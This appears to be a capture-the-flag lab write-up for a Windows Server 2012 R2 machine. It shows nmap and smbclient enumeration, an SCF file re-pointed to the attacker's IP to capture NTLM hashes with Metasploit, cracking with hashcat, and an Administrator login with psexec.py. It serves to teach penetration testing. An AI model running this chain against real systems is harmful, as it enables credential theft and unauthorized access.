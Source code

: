 ## First machine

We started by scanning the IP using `nmap`:

        nmap -A [IP] -Pn

nmap results:

    PORT      STATE SERVICE            VERSION
    135/tcp   open  msrpc              Microsoft Windows RPC
    139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
    445/tcp   open  microsoft-ds       Windows Server 2012 R2 Standard 9600 microsoft-ds
    3389/tcp  open  ssl/ms-wbt-server?
    | rdp-ntlm-info:
    |   Target_Name: WIN-8EHFSR9B2UL
    |   NetBIOS_Domain_Name: WIN-8EHFSR9B2UL
    |   NetBIOS_Computer_Name: WIN-8EHFSR9B2UL
    |   DNS_Domain_Name: WIN-8EHFSR9B2UL
    |   DNS_Computer_Name: WIN-8EHFSR9B2UL
    |   Product_Version: 6.3.9600
    |_  System_Time: 2023-01-02T12:28:36+00:00
    |_ssl-date: 2023-01-02T12:29:16+00:00; +1s from scanner time.
    | ssl-cert: Subject: commonName=WIN-8EHFSR9B2UL
    | Not valid before: 2023-01-01T12:23:44
    |_Not valid after:  2023-07-03T12:23:44
    49154/tcp open  msrpc              Microsoft Windows RPC
    49155/tcp open  msrpc              Microsoft Windows RPC
    Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

    Host script results:
    | smb-security-mode:
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    |_nbstat: NetBIOS name: WIN-8EHFSR9B2UL, NetBIOS user: <unknown>, NetBIOS MAC: 06:8e:e9:37:d4:20 (unknown)
    | smb-os-discovery:
    |   OS: Windows Server 2012 R2 Standard 9600 (Windows Server 2012 R2 Standard 6.3)
    |   OS CPE: cpe:/o:microsoft:windows_server_2012::-
    |   Computer name: WIN-8EHFSR9B2UL
    |   NetBIOS computer name: WIN-8EHFSR9B2UL\x00
    |   Workgroup: WORKGROUP\x00
    |_  System time: 2023-01-02T12:28:36+00:00
    | smb2-time:
    |   date: 2023-01-02T12:28:36
    |_  start_date: 2023-01-02T12:22:22
    | smb2-security-mode:
    |   3.0.2:
    |_    Message signing enabled but not required

after that we used `smbclient` to list the shares in the machine:

    smbclient -L [IP]

smbclient results:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        compta          Disk      windows lab
        deepwin         Disk      windows lab
        IPC$            IPC       Remote IPC
        orga            Disk      windows lab
        print$          Disk      Printer Drivers

We then tried to connect to the `compta` share:

    smbclient \\\\[IP]\\compta

we found a file called `file_backup.zip` and we downloaded it using `get` command.

We then used `unzip` to extract the file:

    unzip file_backup.zip

we found a file called `file.scf` and we opened it using `cat` command:

    [shell]
    command=2
    IconFile=\\172.31.31.144\\compta\\hacked.ico
    [taskbar]
    Command=ToogleDesktop

`An SCF file is a shortcut file that can be used to perform a specific action or set of actions in Windows.`

after a bit of research we found that we can use `scf` files to do an smb relay attack.

first thing we need to change the ip in the file to our ip so that the victim machine will connect to us because When a user clicks on an SCF file that references a network share, Windows will attempt to establish a connection to the share by authenticating with the username and password of the current user. As part of this process, the server will send a challenge key to the client, which the client uses to encrypt the user's password hash. This encrypted password hash, also known as the NTLM hash, can be captured by some tools like `Responder` and used to try to crack the user's password but i prefer to use `Metasploit` for this.

after that we need to put the file in `compta` share so that the victim machine can access it.

in `Metasploit` we can use `auxiliary/server/capture/smb` to set up a smb server and capture the NTLM hash.

after that we can use `hashcat` to crack the hash.

    hashcat -m 5600 -a 0 hash /usr/share/wordlists/rockyou.txt

hashcat result was `P@ssw0rd` and we can use it to login to the machine.

so we can easily login to the machine using `psexec.py`:

    psexec.py Administrator@[IP]

we found the flag in `C:\Users\Administrator\Desktop\proof.txt`.
